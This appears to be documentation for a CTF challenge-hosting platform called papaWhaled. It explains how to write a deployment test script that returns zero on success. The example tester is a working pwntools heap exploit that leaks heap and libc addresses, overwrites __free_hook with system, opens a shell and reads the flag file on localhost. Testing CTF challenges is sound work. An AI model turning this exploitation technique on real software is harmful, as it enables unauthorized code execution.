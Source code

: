 # How to write test script?

If you upload challenge zip file, **papaWhaled** firstly do some docker process, and then test to check whether challenge is deployed well or not. 

This test would be done by following command, where `[port]` and `[flag]` are passed by papaWhaled, and `[test]` is decided by your included `props.json`.

    ./[test] [port] [flag]

If return value of this command is **False(0)**, this challenge is thought to be well deployed, else it is failed to be deployed.

*Because it only cares return value, test is not need to be script. It can be whatever that returns. (i.e, ELF)*

In sum, here are the things that you should consider before write/make your **tester**.

1. Must include shebang(`#!`) if your `[test]` is not common executable like ELF.
2. Can grab the port and flag by parsing the argvs.
3. Must return **False** if test is success, else return **True**. (You can check it by evaluating the flag)
4. If uploaded challenge is deployed as **auto**, flag would be always at `/home/user/flag`.
5. If your test succeeds stochatically, test several times on your script. *Maybe this feature would be added soon.*

Here is the example.

    #!/usr/bin/python <= Include shebang, or it can crush!
    from pwn import *
    import sys
    
    #Grab the port and flag from argvs
    port = sys.argv[1]
    flag = sys.argv[2]
    
    p=remote("localhost", port)
    
    sa = lambda x,y : p.sendafter(x,y)
    cho = lambda x : sa("Choice",str(x))
    go = lambda : p.interactive()
    
    def add(size,data):
        cho(1)
        sa("size",str(size))
        sa("data",data)
    
    def edit(idx,size,data):
        cho(2)
        sa("index",str(idx))
        sa("size",str(size))
        sa("data",data)
    
    def delete(idx):
        cho(3)
        sa("index",str(idx))
    
    def edit_name(c,name):
        cho(4)
        sa("edit",c)
        if c=='Y':
            sa("name",name)
        else:
            p.recvuntil("Name: ")
            return p.recvline()[:-1]
    
    sa("name","\x00")
    
    for i in range(3):
        add(0x50,str(i)*0x50)
    add(0x40,"/bin/sh\x00")
    add(0x40,"/bin/sh\x00")
    for i in range(16):
        print i
        add(0x40,str(i)*0x40)
    
    hb = u64(edit_name('N',1).ljust(8,'\x00'))-0x790-0x140
    print hex(hb)
    
    for i in range(7):
        edit_name('Y',p64(0x602120)+p64(0)+p64(0)+p64(0xc1))
        delete(20)
    
    edit_name("Y",p64(0x602120)+p64(0)+p64(0)+p64(0xc1)+"A"*0xb0+p64(0)+p64(0x21)+p64(0)*3+p64(0x21))
    delete(20)
    edit_name("Y","A"*0x20)
    p.recvuntil("A"*0x20)
    lb = u64(p.recvline()[:-1]+'\x00'*2) - 0x3ebca0
    fh = lb + 0x3ed8e8
    system = lb + 0x4f440
    
    edit_name('Y',p64(hb+0x250+0x10))
    delete(0)
    delete(1)
    delete(20)
    delete(3)
    add(0x50,p64(fh))
    add(0x50,"FAKE")
    add(0x50,p64(fh))
    add(0x50,p64(system))
    
    delete(4)
    
    #Check the test result and return.
    p.sendline("cat /home/user/flag")
    p.recv()
    if flag in p.recv(4096):
        sys.exit(False) # If success, return False!
    else:
        sys.exit(True)